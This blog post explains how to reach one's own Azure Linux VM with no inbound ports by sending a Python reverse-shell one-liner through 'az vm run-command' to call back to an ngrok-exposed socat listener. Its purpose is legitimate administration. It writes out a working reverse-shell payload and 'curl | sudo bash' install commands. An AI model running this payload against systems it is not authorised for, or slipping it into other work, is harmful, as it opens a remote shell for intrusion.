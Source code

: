 ```yaml
---
layout: post
title: "Reverse shell to your Azure VM without inbound access"
date: 2021-02-23
tags: azure linux
permalink: reverse-shell-azure
---
```


> **Purpose:** 
> For any Azure Compute Linux VM where you have permission to execute one-off commands via the Azure CLI, 
> issues a reverse shell command to the VM and sends the shell back to you over TCP (via an ngrok tunnel)

There are many practical reasons - whether due to cost constraints or lack of necessity - to not attach a public IP address/allow inbound acccess to an Azure Compute VM.  Nevertheless, once in a while it may be convenient to get a shell on a VM to tweak a setting or debug a problem. One solution would be to simply attach a public IP to the VM. In an ad-hoc situation, the solution I propose below is quick and easy once you have the tools set up. 

This solution aims to **replace** scenarios where you'd want to use the Azure dashboard's [integrated serial console](linux-diagnose-agent.md#azure-console).  To use the serial console, you needed to jump through several hoops and interface with the (buggy and not-too-fun-to-use) web console. This approach uses the Azure CLI's ability to [issue one-off shell commands to the VM](https://docs.microsoft.com/en-us/azure/virtual-machines/linux/run-command).  We are exploiting that feature to create a reverse shell back to our computer through a TCP connection.  We use ngrok to expose a TCP port on our local machine.

> Note that in this post I don't go through the process of setting up an encrypted TCP connection between your machine and the VM.  Following [this post by erev0s](https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/#encrypted-reverse-shell) illustrates one such way to encrypt your connection with on an SSL layer.

## How it works

For an Azure VM with OUTBOUND internet access, but with NO INBOUND ports open - the script:

1. Spawns an ngrok TCP relay over local port 56760
2. Spawns a socat tcp listener on port 56760

Essentially: 

```bash
ngrok tcp 56760
socat file:`tty`,raw,echo=0 tcp-listen:56760
```

2. Does some regex magic to find out the random ngrok URL and port

3. Uses the Azure CLI to send a shell command to our VM with [az vm run-command invoke](https://docs.microsoft.com/en-us/cli/azure/vm/run-command?view=azure-cli-latest#az_vm_run_command_invoke).
4. The payload is a standard python reverse shell one-liner that makes a connection back to our listener, and spawning a `pty` with the command `/bin/bash`.

```bash
az vm run-command invoke -g $RESOURCE_GROUP -n $VMID --command-id RunShellScript --scripts "export RHOST=\"$HOST\";export RPORT=$PORT;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(\"RHOST\"),int(os.getenv(\"RPORT\"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/bash\")'"
```

### Prereqs

| Prereq.   | MacOS Install          | WSL2 Install                                                           |
|-----------|------------------------|------------------------------------------------------------------------|
| socat     | `brew install socat`     | `sudo apt install socat`                                                 |
| ngrok     | `brew install ngrok`     | `wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip -O ngrok.zip && unzip ngrok  && sudo cp ngrok /usr/local/bin && chown $(whoami) /usr/local/bin/ngrok && chmod +x /usr/local/bin/ngrok` |
| Azure CLI | `brew install azure-cli` | `curl -sL https://aka.ms/InstallAzureCLIDeb \| sudo bash`                |
| jq        | `brew install jq`        | `sudo apt install jq`                                                    |

### Additional Setup

1. Create a free ngrok account and run `ngrok authtoken <YOUR TOKEN>` in order to use their tcp relay.
2. Run `az login` to login to the Azure CLI with your credentials. 

## Usage

To use the script on a *nix system, simply run the bash script with your VM's name, resource group, and subscription.  Note you'll need this VM to be visible to you via the Azure CLI with adequate permissions to queue a `run-command`.

Two terminals will be spawned:
 - The `socat` listener window (listening for the reverse shell connection/where we will interact with our Azure VM). 
 - The `ngrok` window running the TCP tunnel facilitating the connection (you can mostly ignore this window, given you do not see an error).

```
./reverse-shell-azure.sh <VM NAME> [RESOURCE_GROUP] [SUBSCRIPTION]
```

Enjoy! - 

<script src="https://gist.github.com/joshspicer/b5c66ad239031e3138469c5948c78bae.js"></script>
